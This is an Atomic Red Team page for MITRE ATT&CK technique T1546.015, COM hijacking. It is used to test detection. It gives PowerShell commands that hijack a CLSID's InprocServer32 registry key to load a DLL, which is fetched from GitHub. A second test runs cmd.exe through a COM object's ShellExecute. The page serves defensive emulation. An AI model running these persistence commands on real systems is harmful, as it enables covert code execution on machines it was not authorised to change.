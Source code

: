 # T1546.015 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/015)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by hijacked references to Component Object Model (COM) objects. COM is a system within Windows to enable interaction between software components through the operating system.(Citation: Microsoft Component Object Model)  References to various COM objects are stored in the Registry. 

Adversaries can use the COM system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead.(Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijacking - InprocServer32](#atomic-test-1---com-hijacking---inprocserver32)

- [Atomic Test #2 - Powershell Execute COM Object](#atomic-test-2---powershell-execute-com-object)


<br/>

## Atomic Test #1 - COM Hijacking - InprocServer32
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via rundll32.exe.

Reference: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/

**Supported Platforms:** Windows


**auto_generated_guid:** 48117158-d7be-441b-bc6a-d9e36e47b52b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Apartment|
| dllpath | Path to the DLL. | String | $env:TEMP&#92;AtomicTest.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value #{dllpath}
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-sta #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path #{dllpath}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/AtomicTest.dll" -OutFile "#{dllpath}"
```




<br/>
<br/>

## Atomic Test #2 - Powershell Execute COM Object
Use the PowerShell to execute COM CLSID object.

**Supported Platforms:** Windows


**auto_generated_guid:** 752191b1-7c71-445c-9dbe-21bb031b18eb






#### Attack Commands: Run with `powershell`! 


```powershell
$o= [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39"))
$item = $o.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```

#### Cleanup Commands:
```powershell
Get-Process -Name "*calc" | Stop-Process
```





<br/>
